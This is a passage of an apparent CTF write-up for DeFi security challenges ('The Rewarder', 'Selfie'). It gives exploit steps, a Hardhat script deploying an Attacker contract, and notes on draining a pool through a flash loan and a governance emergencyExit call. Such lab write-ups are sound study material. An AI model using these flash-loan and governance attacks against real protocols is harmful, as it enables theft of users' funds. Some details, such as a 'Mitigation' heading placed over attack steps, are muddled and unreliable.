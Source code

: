 1. Call flashLoan()
2. Modify receiveFlashLoan to hack reward by withdrawing and sending the amount back to the pool so that our call doesn't get reverted.
3. Transfer the reward to your account.

```jsx
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const Attacker = await ethers.getContractFactory(
            "contracts/the-rewarder/Attacker.sol:Attacker"
          );
          const attacker = await Attacker.deploy(
            flashLoanPool.address,
            rewarderPool.address,
            rewardToken.address,
            liquidityToken.address,
            player.address
          );
          await ethers.provider.send("evm_increaseTime", [6 * 24 * 60 * 60]);
          await liquidityToken.approve(rewarderPool.address, 1n * 10n * 17n);
      
          await attacker.getLoan();
    });
```

# 6. Selfie

**************Problem:**************

```solidity
function emergencyExit(address receiver) external onlyGovernance {
        //@audit no use of modifier because asset token and governance token are same token
        //@audit hack function
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit FundsDrained(receiver, amount);
    }
```

- The **`emergencyExit`** function is called to drain funds.
- The **`flashLoan`** function is used to initiate the attack by sending data for draining funds.
- The execution of **`emergencyFunds`** is delayed until the attacker can execute the action.
- The **`executeAction`** function is called with the parameter **`data`** set to **`emergencyExit`**.
- ******************Solution:******************

### Steps of Mitigation

1. As we know that in the function flashLoan there is an arbitrary call made to the onFlashLoan which returns bytes32 and its value is already known, so we can manipulate the function to do something else but return the expected value to pass flashLoan.
